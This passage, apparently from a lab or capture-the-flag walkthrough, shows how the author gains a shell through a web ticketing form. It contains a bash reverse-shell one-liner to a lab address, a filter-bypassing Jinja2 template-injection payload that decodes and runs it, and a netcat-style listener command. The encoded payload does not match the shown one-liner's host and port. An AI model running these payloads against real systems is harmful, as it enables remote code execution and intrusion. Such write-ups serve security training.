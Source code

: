 We got a message saying to fix something from the directory (portal) and user credentials. Let’s try user credentials first.

![Screen Shot 2021-06-03 at 04.25.43.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/D184C8E1-BA79-4BA5-8B6F-F58A307E30B6_2/Screen%20Shot%202021-06-03%20at%2004.25.43.png)

We use the first user’s (chiv) credentials to login.

![Screen Shot 2021-06-03 at 04.26.35.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/CCF386F5-4D28-4480-B373-1EB9666948DC_2/Screen%20Shot%202021-06-03%20at%2004.26.35.png)

Upon login we get this welcome page and with other messaging options. So, chiv user is admin of this website. Let’s read messages.

![Screen Shot 2021-06-03 at 04.29.35.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/9E255FAC-1838-4312-B980-0B953708B33F_2/Screen%20Shot%202021-06-03%20at%2004.29.35.png)

We already have this message from DB dump. Let’s access this portal.

![Screen Shot 2021-06-03 at 04.31.24.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/C6B06E75-E371-4F5B-B4EF-7B18A6D2DE6D_2/Screen%20Shot%202021-06-03%20at%2004.31.24.png)

Ticketing system. Let’s try SSTI here.

![Screen Shot 2021-06-03 at 04.32.47.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/723CF8F3-4F0A-4A84-A629-D5E7FBA67193_2/Screen%20Shot%202021-06-03%20at%2004.32.47.png)

![Screen Shot 2021-06-03 at 04.33.02.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/DAB3B299-F081-4639-8738-F8157755C532_2/Screen%20Shot%202021-06-03%20at%2004.33.02.png)

After submitting the basic injection payload, we got this error. Sever/application is blocking ‘{‘ character with many other. Let’s try to bypass that and gain shell access.

# Initial Access

First we need to encode our bash one-liner with base64.

```shell
🔥\> echo -n "bash -i >& /dev/tcp/10.10.14.106/1234 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMDYvMTIzNCAwPiYx
```

Now we append this encoded one-liner into our payload.

[SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-remote-code-execution)

```python
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OS85MDAxIDA+JjE= | base64 -d | bash")["read"]() %} a {% endwith %}
```

Setup a Pwncat/Netcat listener.

```shell
🔥\> pwncat -l -p 1234
bound to 0.0.0.0:1234
```

Submit the payload in contact field.

![Screen Shot 2021-06-03 at 22.50.09.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/B54ABC2F-17B5-4A0C-BE47-15564A28EDF2_2/Screen%20Shot%202021-06-03%20at%2022.50.09.png)
